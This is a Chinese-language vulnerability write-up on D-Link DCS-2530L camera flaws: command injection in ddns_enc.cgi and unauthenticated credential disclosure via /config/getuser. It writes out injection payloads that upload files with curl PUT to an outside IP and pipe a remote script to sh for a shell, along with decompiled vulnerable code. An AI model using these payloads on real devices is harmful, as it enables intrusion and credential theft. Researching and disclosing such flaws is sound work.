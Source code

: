 >yk2eR0@HATLAB

## 官网公告
[
Authenticated Command Injection and Unauthenticated Credential Disclosure](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10180)
## 影响范围

DCS-2530L v1.05.05 & older

DCS-2670L v2.02 & older
## 测试环境

设备厂商：D-Link
设备型号：D-Link DCS-2530L
设备版本：1.04

## 关键程序提取
由于公布的两个漏洞CVE-2020-25079 + CVE-2020-2507刚好一个敏感信息泄露,一个命令执行,刚好凑一套RCE.尝试使用命令执行dump下来关键二进制程序来分析.
### payload
由于注入无回显,所以用curl的方法让被测机器向我们的服务端发送数据来显示注入结果:在本地``nc -lvp 11451``
首先通过
``http://2remoteip/cgi-bin/ddns_enc.cgi?enable=1&hostname=qq&interval=24&servername=www.dlinkddns.com&provider=custom&account=;ls >a;curl%20-X%20PUT%201local ip:localport%20-T%20a;``来找命令执行的根目录.本地接收到请求:
![e1b923f15ae329ef1e0445d0b21a9360.png](en-resource://database/3444:1)
通过``;curl  local ip:localport|sh``来弹出无回显远程shell;
找出关键二进制程序在``execs/``中,通过服务端``nc -lvp 11451 >aHttpMain``,注入点``;curl%20-X%20PUT%20121.36.223.38:12668%20-T%20/execs/aHttpMain;``将aHttpMain提取出来



### CVE-2020-25079漏洞分析


漏洞点在aHttpMain,在处理ddns设置请求的函数中:
```c
  if ( !strcasecmp(s1, "www.dlinkddns.com") || !strcasecmp(s1, "www.dyn.com") )
  {
    if ( a5 )
    {
      if ( !*(_BYTE *)a5 )
        v12 = "NULL";
    }
    else
    {
      v12 = "NULL";
    }
    if ( a6 )
    {
      if ( !*(_BYTE *)a6 )
        v13 = "NULL";
    }
    else
    {
      v13 = "NULL";
    }
    snprintf(
      s,
      0x100u,
      "ez-ipupdate -i %s -S %s -u %s:%s -h %s -d -P 600 -M %u -F \"%s\"",
      (const char *)a1,
      "dyndns",
      v12,
      v13,
      (const char *)a4,
      3600 * a7,
      (const char *)a2);
    return system(s);
  }
```
程序通过调用ez-ipupdate来实现ddns的配置,对用户输入仅做了是否为空的判断,而没有进行任何**安全性检查**.
snprintf处未做处理直接进行拼接,拼接值传入system执行.
当用户输入account值为``;ls;``时函数将会执行``ez-ipupdate -i 
interface -S Host Name  -u ;ls;:%s -h %s -d -P 600 -M %u -F \"%s\"``在执行ez-ipupdate后将执行ls命令,成功实现命令注入.

### CVE-2020-25078:

并为路径在中途未做相应的访问控制，直接在摄像头的根目录加上 /config/getuser?id=0 路径，从这里窃取代码出设备的账户名和密码。

